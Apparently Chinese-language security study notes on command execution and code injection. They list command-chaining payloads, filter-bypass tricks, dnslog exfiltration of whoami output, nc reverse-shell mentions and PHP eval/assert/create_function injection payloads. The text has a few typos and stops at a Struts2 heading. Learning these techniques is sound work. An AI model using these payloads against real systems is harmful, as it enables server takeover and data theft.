

## 1.RCE-命令执行漏洞

远程命令执行漏洞，指用户通过浏览器移交执行操作命令，由于服务端没有针对执行函数做过滤直接执行了恶意代码

### 漏洞原理
应用有时需要调用一些执行命令的函数，当用户能够控制这些函数的参数时，就可以将恶意系统命令拼接到正常命令中，从而造成命令执行攻击

### 利用前提
1. 应用调用执行系统命令的函数
2. 将用户输入作为系统命令的参数拼接到命令行中
3. 没有对用户输入进行过滤或过滤不严
4. 命令解释器支持命令连接符、管道、重定向等语法
5. 攻击者能够控制参数，并可通过回显、延时、DNSlog、反弹shell等方式确认执行结果

### 漏洞分类
1. 代码过滤不严
2. 系统漏洞造成命令注入
	1. 中间件、组件、系统命令本身存在漏洞
	2. 第三方服务未授权
3. 调用的第三方组件存在代码执行漏洞

### 漏洞危害
1. 继承Web服务程序的权限去执行系统命令或读写文件
2. 反弹shell
3. 控制整个网站甚至是服务器
4. 进一步内网渗透

### 漏洞利用

在利用之前要先明白命令拼接符

#### 命令拼接符

| 操作系统               | 拼接符          | 含义                                 | 经典 Payload 示例                                   |
| ------------------ | ------------ | ---------------------------------- | ----------------------------------------------- |
| **Windows**        | `&`          | **无条件执行**（无论前面命令对不对，后面都执行）         | `ping 127.0.0.1 & whoami`                       |
| **Windows&&Linux** | `&&`         | **逻辑与**（前面命令成功才执行后面）               | `ping 127.0.0.1 && whoami`                      |
| **Windows&&Linux** | `\|`         | **管道**（把前面命令的输出作为后面命令的输入）          | `echo dir \| cmd`                               |
| **Windows&&Linux** | `\|\|`       | **逻辑或**（前面命令失败才执行后面）               | `ping 1.1.1.1 \|\| whoami`                      |
| **Linux/Unix**     | `;`          | **无条件执行**（分号，前面的不管成不成功，后面都执行，互不干扰） | `ping 127.0.0.1; whoami`                        |
| **Linux/Unix**     | `&`          | **后台运行**（把命令丢到后台，不影响终端）            | `ping 127.0.0.1 & whoami`                       |
| **Linux/Unix**     | `` ` ``（反引号） | **命令替换**（先执行引号内的命令）                | `ping `whoami`.[dnslog.cn](https://dnslog.cn/)` |
| **Linux/Unix**     | `$()`        | **命令替换**（更现代，支持嵌套）                 | `ping $(whoami).dnslog.cn`                      |

#### 危险函数（PHP）
1. `system('')`执行命令并把返回结果输出
2. `exec('')`只执行，返回结果的最后一行
3. `shell_exec('')`执行命令并返回结果
4. 反引号,两个反引号之间包裹的直接当命令执行
5. `passthru('')`只调用命令，把命令结果原样直接输出
6. `popen(需要执行的命令,参数)` r 只读   w 写入 ；返回值是指针，`fread()`用作返回值的读取

### 漏洞危害
1. 继承web服务器的权限去执行系统命令或读写文件
2. 反弹shell
3. 控制整个网站甚至服务器
4. 进一步内网渗透
5. 读取敏感文件、数据库、密钥、源码
6. 写入shell、后门、计划任务
7. 内网扫描、横向移动、域控攻击
8. 勒索加密、数据篡改、服务中断
### 绕过
1. 黑名单绕过
	1. 拼接绕过
		1. `cat flag.php`=`a=ca;b=t;c=flag;$a$b $c.php`
	2. 编码绕过
		1. `cat flag.php`=`scho "Y2F0IGZsYWcucGhw" | base64 -d | bash`
	3. 单双引号
		1. `cat flag.php`=`ca""t fla''g.php`
	4. 反斜杠
		1. `cat flag.php`=`ca\t fla\g.php`
	5. 可变拓展-模糊匹配
		1. `cat flag.php`=`cat flag.ph？`
	6. 特殊变量
		1. `cat flag.php`=`ca$@t fl$@ag.php`
	7. 通配符绕过-win特有
		1. `powershell C:\*\*32\c??c.exe`=`calc`
	8. 使用未过滤但功能相同的命令
2. 长度限制绕过
	1. 创建文件
		1. `cat flag.php`=`cat flag.php > a;sh a`
3. 空格限制绕过
	1. 编码绕过
		1. `cat flag.php`= `cat%0dflag.php·只能在浏览器中使用
		2.  `cat flag.php`= `cat${IFS}flag.php`linux独有
		3. ‘ping 127.0.0.1’=‘ping%CommonProgramFiles:~10,-18%127.0.0.1’windows独有
	2. 拼接绕过

### 无回显
#### 主动-向内
1. 写入文件，访问执行

#### 被动-向外
1. nc反弹
2. dnslog外带数据

---

## 2.RCE-远程代码执行漏洞

远程代码执行漏洞也叫代码注入漏洞，指用户通过浏览器提交执行恶意脚本代码，执行恶意构造的脚本代码

### 漏洞原理
为了灵活性、简洁性，部分会在代码中调用`eval`等危险函数去处理，没有考虑用户是否能够控制这个字符，将造成代码执行漏洞

### 利用前提
1. 应用调用执行代码的函数或存在动态执行代码功能
2. 将用户输入作为代码参数拼接到代码中
3. 没有对用户输入进行过滤或过滤不严
4. 执行环境具备一定权限，科协文件、执行命令或访问网络
5. 可通过回显、延时、DNSlog、反弹shell等方式确定执行结果

### 漏洞分类
1. 代码过滤不严
2. 系统漏洞造成的代码注入
3. 调用的第三方组件存在代码执行漏洞
4. 反序列化、表达式注入、模板注入、文件包含等导致代码执行

### 漏洞利用
#### 危险函数（PHP）
1. `eval()` 不是函数，是语言构造器
	1. 将括号内的部分当代码执行
	2. 不受`disable_fuctions`禁用函数的限制
2. `assert()` 函数，处理括号内的输入，直接进行代码执行
3. php极度自由特性
	1. 传入的参数内容可当变量名、函数、参数等使用
4. `preg_replace()`函数，正则表达式的搜索和替换
	1. php<5.5
	2. `echo @preg_replace('/test/e',$a,'just test');`在参数s中传入想要执行的，/e是必须有的
5. `create_fuction`创建匿名函数
	1. `fution b (){//这里直接调用a传进来的参数}`=`$b = create_fuction('',$_REQUEST[a]);`传参 `a=}phpinfo();//`皆可实现闭合调用phpinfo()
6. get传参嵌套
	1. `$__GET[1]($_GET[2]);`传参 `1=assert&2=phpinfo()`
7. 单双引号-PHP
	1. 单引号内的不被解析，双引号包裹的变量能解析执行
	2. php>5.5
	3. `"${phpinfo()}"`能够解析执行PHPinfo

#### CVE-2016-5734 phpmyadmin示例

[解析示例](https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2016-5734/README.zh-cn.md)

**前提：** 已知账号密码

#### Struts2/s2-001 示例

